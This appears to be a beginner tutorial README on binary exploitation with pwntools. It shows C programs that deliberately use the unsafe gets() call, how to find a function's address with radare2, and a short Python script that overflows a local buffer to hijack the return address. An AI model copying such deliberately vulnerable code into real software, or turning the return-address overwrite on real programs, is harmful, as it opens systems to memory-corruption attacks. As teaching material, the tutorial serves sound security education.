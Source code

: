 # SuperSimplePwn, an introduction to pwntools and binary exploitation

Here's a simple C program:
```c
#include <stdio.h>

int main()
{
	int myVar = 1337;
	char myCharVar[10];
	gets(myCharVar);
	if(myVar==1337){
		printf("good job\n");
	}
	else{
		printf("bad job\n");
	}
}
```
It doesn't do much, there's not going to be any vulnerabilities, right?  
![image](https://user-images.githubusercontent.com/65077960/127715019-788df58f-1be6-4eda-bb33-ff1430802a90.png)  

Even in a simple script, there are plenty of flaws and potential exploits that we can use. For example, the absence of canary means the program fails to validate the intergrity of the stack.  
![image](https://user-images.githubusercontent.com/65077960/127715140-96cbd4f6-025b-4490-88cc-c62946dae6ba.png)

If we give it input bigger than the buffer size, we can access the 2nd output by overwriting our current memory address. The "gets" function is considered dangerous, saving input to a buffer, even if it surpasses it's limits.
This is known as [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow). But who cares, right? we're just accessing it locally and accessing output that we typically can't.

Well, let's take a look at this program:  
```c
#include <stdio.h>

int canttouchthis(){
	printf("You shouldn't be here\n");
}

int main()
{       
	int myVar = 1337;
	char myCharVar[10];
	gets(myCharVar);
	printf("good job\n");
}
```

Again, we can cause a segmentation fault:  
![image](https://user-images.githubusercontent.com/65077960/127716435-5fc36553-62bf-4141-a04b-3e2a0c9dab79.png)

But the interesting part, the flag, is out of our scope. How do exploit it? We'll need to start by performing some recon. I'll use radare2 but you can use any debugger. We need the address of the "canttouchthis" function, so we can overwrite the "ret" instruction at the end of main().  

![image](https://user-images.githubusercontent.com/65077960/127717983-9c0d9f4e-fe64-4765-a89c-9f886e8de39b.png)

We'll make a small python script to exploit this:
```py
from pwn import *

p = process("./pwnme")
# Use a pattern to verify changes after overflow, p64 after as it's little endian.
buf = b"aaaaaaaabbbbbbbbcccccc" + p64(<addr>)
# overwriting the return address with the "canttouchthis" function address
p.sendline(buf)
print(p.recvline())
print(p.recvline())
```
